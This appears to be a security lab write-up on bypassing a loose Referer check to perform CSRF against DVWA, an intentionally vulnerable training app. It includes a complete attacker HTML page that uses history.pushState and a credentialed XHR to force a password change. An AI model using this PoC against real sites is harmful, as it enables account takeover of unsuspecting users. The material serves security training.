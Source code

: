 #### 3.1. CSRF via XHR (medium security DVWA)

Notes:
- previous PoC sends `Referer` request header as `Referer: http://localhost:8081/x.html`
- value of `Referer` is validated server-side (needs to match with the value from `Host` header)
```
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
	// stuff
}
```
- `Host` header value is typically (sub)domain name or just an IP
- you cannot set the `Host` header (or `User-Agent`) in the XHR request (`xhr.setRequestHeader("Host", "localhost");`)
  - browser will throw an error like `Refused to set unsafe header "Host"`
- `Accept-Language` can be set to whatever value you want
- we can *craft* the `Referer` to contain the `Host` value as `http://<attacker_host>/172.16.201.160`
  - server-side check is loose enough to be bypassed
  - spoofing the entire `Referer` doesn't work via `history.pushState('', '', 'http://172.16.201.160');`
  ```
  Failed to execute 'pushState' on 'History': A history state object with URL 'http://172.16.201.160/' cannot be created in a document with origin 'http://localhost:8081' and URL 'http://localhost:8081/x.html'.
  ```


#### 3.2. PoC attacker page could look like

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      function goBabyGoGo() {
      	var url = "http://172.16.201.160/vulnerabilities/csrf/?";
      	var params = "password_new=123&password_conf=123&Change=Change"

        var xhr = new XMLHttpRequest();
        xhr.open("GET", url + params, true);
        xhr.withCredentials = true;
        var body = ""; // var body = params; // for POST request
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }

      var current_location = document.location.pathname;

      // place the Host value as part of the URL path on attacker's page (this page)
      history.pushState('', '', '172.16.201.160');
      
      // trigger CSRF with Referer: http://<attacker_host>/172.16.201.160
      goBabyGoGo();

      // restore original URL path
      history.pushState('', '', current_location);
    </script>
  </body>
</html>
```
